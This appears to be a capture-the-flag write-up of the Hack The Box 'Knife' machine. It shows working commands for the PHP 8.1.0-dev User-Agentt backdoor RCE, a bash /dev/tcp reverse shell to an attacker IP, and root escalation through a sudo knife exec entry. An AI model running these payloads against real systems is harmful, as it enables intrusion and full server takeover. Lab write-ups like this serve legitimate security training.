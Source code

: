 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary"
date: 2023-01-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/knife_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - PHP 8.1.0-dev - 'User-Agent' [RCE]
  - Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
---
```


![](/assets/images/htb-writeup-knife/knife_logo.png)

Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary.

## PortScan

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 13:57 CST
Nmap scan report for 10.10.10.242
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

The Knife website runs on port 80 and has the following technologies reported by wappalyzer 

![](/assets/images/htb-writeup-knife/website1.png)

## Enumeration

I use curl and I see this that version of PHP is vulnerable to RCE
```
curl -s http://10.10.10.242 -I
```
```
HTTP/1.1 200 OK
Date: Tue, 10 Jan 2023 20:05:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

We can found information here 
- [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933)

I can abuse of the User-Agent because is vulnerable to RCE

```
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
```
```
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```

And is vulnerable so we can send a reverse shell 
```
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.21/443 0>&1\"');" | html2text
```
```
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.242] 60468
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

We can have a best bash terminal so we can do
```
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
reset xterm
```
## User flag

We can see the first flag

```
james@knife:~$ cat user.txt 
9adc315d20ef969531a7b07c66a31d19
```

## Root

After enumerating the system I can see that I can run this binary as root, we can use Gtfobins

```
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

-[https://gtfobins.github.io/gtfobins/knife/#sudo](https://gtfobins.github.io/gtfobins/knife/#sudo)

We follow the instructions and we're root

```
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
# bash
root@knife:/home/james# cd /root
root@knife:~# cat root.txt 
f8c5f763d30a3ed17dd24c4c216fd87b
```

## Another way to be root

You can abuse of the pkexec because is SUID but I won't do it

```
james@knife:/$ find -perm -4000 2>/dev/null | grep -v snap
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/sudo
./usr/bin/su
./usr/bin/fusermount
./usr/bin/pkexec
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/umount
./usr/bin/chfn
./usr/bin/chsh
./usr/bin/mount
./usr/bin/newgrp
./usr/bin/at
```

-[https://github.com/Almorabea/pkexec-exploit](https://github.com/Almorabea/pkexec-exploit)

Only transfer the script to the machine and execute and that's all




